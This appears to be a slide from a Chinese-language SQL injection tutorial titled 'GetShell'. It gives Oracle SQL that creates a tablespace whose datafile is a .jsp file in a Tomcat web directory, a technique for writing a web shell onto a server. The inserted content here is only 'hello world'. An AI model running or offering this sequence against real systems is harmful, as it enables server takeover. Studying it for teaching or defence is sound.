

# SQL注入
GetShell
执行以下SQL创建表空间：
create tablespace shell datafile 'E:/soft/apache-tomcat-
7.0.37/webapps/SqlInjection/shell.jsp' size 100k nologging ;

CREATE TABLE SHELL(C varchar2(100)) tablespace shell;
insert into SHELL values('hello world');
commit;
alter tablespace shell offline;
drop tablespace shell including contents;